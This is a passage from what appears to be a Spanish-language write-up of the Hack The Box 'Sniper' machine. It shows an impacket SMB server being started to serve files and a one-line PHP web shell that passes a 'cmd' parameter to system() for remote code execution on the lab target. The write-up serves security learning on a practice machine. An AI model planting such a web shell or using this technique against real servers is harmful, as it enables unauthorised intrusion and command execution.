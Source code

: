 ```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo impacket-smbserver share -smb2support $(pwd)

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```
## <span style="color: yellow;">Remote Code Execution</span>

Ahora descargamos el archivo 'test_RCE.php' desde Burpsuite:

![](/assets/images/htb-writeup-sniper/test_RCE.png)

Ya comprobamos que podemos ejecutar código php en el servidor, ahora vamos a crear una webshell en un archivo php con un parámetro 'cmd' para pasarle nuestros códigos como entrada.

```php
<?php system($_REQUEST["cmd"]);?>

```
![](/assets/images/htb-writeup-sniper/whoami.png)
